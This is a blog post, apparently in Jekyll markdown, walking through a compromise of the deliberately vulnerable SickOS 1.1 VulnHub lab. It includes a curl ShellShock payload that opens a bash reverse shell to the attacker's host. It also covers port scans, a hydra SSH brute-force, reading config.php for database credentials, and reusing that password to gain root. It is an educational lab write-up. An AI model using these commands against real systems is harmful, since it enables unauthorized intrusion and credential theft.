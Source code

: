 ```yaml
---
layout: post
title: "SickOS 1.1 Walkhrough"
tags: [hacking, lab]
---
```

![Sickos 1.1 Walkthrough]({{ site.url }}/img/sickos1.1-walkthrough.png)

This is a walkthrough of [SickOS 1.1](sickos1.1-url) found on [VulnHub](vulnhub-url). The objective is to compromise the VM, gain
root privileges, and find the flag. We need to treat this machine as a remote server, so we can't use any kernel tricks here.

After booting the virtual machine, I needed to find the IP address of the box, so I did a simple ping sweep.

{% highlight bash %}
nmap -n -sP 172.16.49.0/24
{% endhighlight %}

![SickOS 1.1 Ping Sweep]({{ site.url }}/img/sickos1.1-ping-sweep.png)

The IP address of the SickOS 1.1 server is 172.16.149.133. I knew this because the Kali VM IP address is 172.16.149.132. Now
that I have the IP of the SickOS server I need to identify any open ports. Running a nmap scan of the host will give me the 
information I need to get started:

{% highlight bash %}
nmap -n -Pn -sS -p - 172.16.149.133
{% endhighlight %}

![SickOS 1.1 Nmap Scan]({{ site.url }}/img/sickos1.1-nmap-scan.png)

The results show that we have what looks like Squid Proxy Server open on port 3128 and SSH on port 22. Next I want to run a 
Nikto scan to look for any low hanging fruit. Be sure to use the "-useproxy" flag so the scan runs through the proxy.

{% highlight bash %}
nikto -h http://172.16.149.133 -useproxy 172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 Nikto Scan]({{ site.url}}/img/sickos1.1-nikto-scan.png)

Some interesting results return from the Nikto scan. Here we can see that the "/cgi-bin/status" portion of the site is vulnerable
to ShellShock. We will use this an attack vector to exploit the server and gain access to the box. Open a second terminal window
and establish a netcat listener.

{% highlight bash %}
nc -lvnp 666
{% endhighlight %}

Now we exploit ShellShock using curl.
{%  highlight bash %}
curl -H "User-Agent: () { ;: }; /bin/bash -i >& /dev/tcp/172.16.149.132/666 0&>1" http://172.16.149.133/cgi-bin/status -x http://172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 ShellShock Exploit]({{ site.url }}/img/sickos1.1-shellshock-exploit.png)

After running the curl command, switch over to the terminal window that is running our Netcat listener. You should have been 
given a shell prompt.

![SickOS 1.1 Reverse Shell Prompt]({{ site.url }}/img/sickos1.1-reverse-shell-prompt.png)

Now that we have access on the box we need to gather some information. First I am going to check out the "/etc/passwd" file.

{%  highlight bash %}
cat /etc/passwd
{% endhighlight %}

![SickOS 1.1 /etc/passwd]({{ site.url }}/img/sickos1.1-etc-passwd.png)

In the results we see that an account exists with the username "sickos", a directory in "home", and that the user has shell access
on the box. Now I want to check out the "/etc/group" file for more information.

{%  highlight bash %}
cat /etc/group
{% endhighlight %}

![SickOS 1.1 /etc/group]({{ site.url }}/img/sickos1.1-etc-group.png)

The results show that the user "sickos" is part of the "adm" group. This is indicative of the user being able to use the sudo command to
access root. Armed with this info I am going to attempt bruteforce SSH to see if I can get the password. I figure I will let hydra
run while I poke around the box looking for any further useful information.

{% highlight bash %}
hydra -t 10 -l sickos -P /usr/share/wordlist/rockyou.txt -vV 172.16.149.133 ssh
{% endhighlight %}

I tried to get this started several times with no avail - looks like there might be something blocking it, so I am going to continue
gathering information on the box. Because this server is acting as a webserver - typically web files are hosted in "/var/www," so I am
going to change to the directory and list out all files.

{% highlight bash %}
cd /var/www/
ls
{% endhighlight %}

![SickOS 1.1 ls /var/www]({{ site.url }}/img/sickos1.1-ls-var-www.png)

Here we see a directory called "wolfcms" - this contains the website and configuration files. Within the "wolfcms" dir there is a
file called "config.php." These config files typically have database usernames, passwords, and configuration settings for the 
website, so I am going to take a look.

{% highlight bash %}
cat config.php|head -20
{% endhighlight %}

![SickOS 1.1 config.php Contents]({{ site.url }}/img/sickos1.1-config.php-contents.png)

In the "config.php" is a database username and password. One thing about users' is they tend to use the same password everywhere,
so let's try using it with SSH and the "sickos" user. 

{% highlight bash %}
ssh sickos@172.16.149.133
{% endhighlight %}

The SSH username and pasword worked! Since we know "sickos" is in sudoes lets switch to "root" and see what is in the "/root"
directory.

{% highlight bash %}
sudo su -
# enter sickos password
ls
{% endhighlight %}

Inside the "/root" directory is the flag, cat the file out and we have completed the objective!

![SickOS 1.1 Cat Flag]({{ site.url }}/img/sickos1.1-cat-flag.png)

[sickos1.1-url]: https://www.vulnhub.com/entry/sickos-11,132/
[vulnhub-url]: https://www.vulnhub.com/